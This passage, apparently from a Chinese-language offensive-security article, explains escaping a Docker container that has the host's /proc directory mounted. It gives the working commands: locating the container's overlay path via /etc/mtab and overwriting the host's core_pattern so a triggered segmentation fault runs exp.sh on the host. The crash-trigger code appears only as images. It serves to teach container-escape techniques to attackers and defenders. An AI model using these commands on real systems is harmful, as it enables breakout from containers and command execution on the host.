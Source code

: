 另一个比较有趣的场景就是挂载了主机 /proc 目录的容器，在历史的攻防演练中当我们遇到挂载了主机 /proc 目录的容器，一般都会有其它可以逃逸的特性，如 sys\_ptrace 或者 sys\_admin 等，但是其实挂载了主机 /proc 目录这个设置本身，就是一个可以逃逸在宿主机执行命令的特性。

我们可以简单的执行以下命令创建一个具有该配置的容器并获得其 shell：  
docker run -v /proc:/host\_proc —rm -it ubuntu bash

![](assets/1700701621-28e830dbd43467374e2684c1ac73acb1.png)

这里逃逸并在外部执行命令的方式主要是利用了 linux 的 /proc/sys/kernel/core\_pattern 文件。

1、首先我们需要利用在 release\_agent 中提及的方法从 mount 信息中找出宿主机内对应当前容器内部文件结构的路径。  
sed -n 's/.\*\\perdir=\\(\[^,\]\*\\).\*/\\1/p' /etc/mtab  

![](assets/1700701621-1a3664910b3e38058cc4436f5f2c5c5c.png)

2、此时我们在容器内的 /exp.sh 就对应了宿主机的 /var/lib/docker/overlay2/a1a1e60a9967d6497f22f5df21b185708403e2af22eab44cfc2de05ff8ae115f/diff/exp.sh 文件。

![](assets/1700701621-f1c09c0949ad53df493cf5b293d266b6.png)

3、因为宿主机内的 /proc 文件被挂载到了容器内的 /host\_proc 目录，所以我们修改 /host\_proc/sys/kernel/core\_pattern 文件以达到修改宿主机 /proc/sys/kernel/core\_pattern 的目的。

echo -e “|/var/lib/docker/overlay2/a1a1e60a9967d6497f22f5df21b185708403e2af22eab44cfc2de05ff8ae115f/diff/exp.sh \\rcore “ > /host\_proc/sys/kernel/core\_pattern

4、此时我们还需要一个程序在容器里执行并触发 segmentation fault 使植入的 payload 即 exp.sh 在宿主机执行。这里我们参考了 [https://wohin.me/rong-qi-tao-yi-gong-fang-xi-lie-yi-tao-yi-ji-zhu-gai-lan/#4-2-procfs-](https://wohin.me/rong-qi-tao-yi-gong-fang-xi-lie-yi-tao-yi-ji-zhu-gai-lan/#4-2-procfs-) 里的 c 语言代码和 CDK-TEAM/CDK 里面的 GO 语言代码：

![](assets/1700701621-a7f04864593ebb640fad980c2fd7c10b.png)
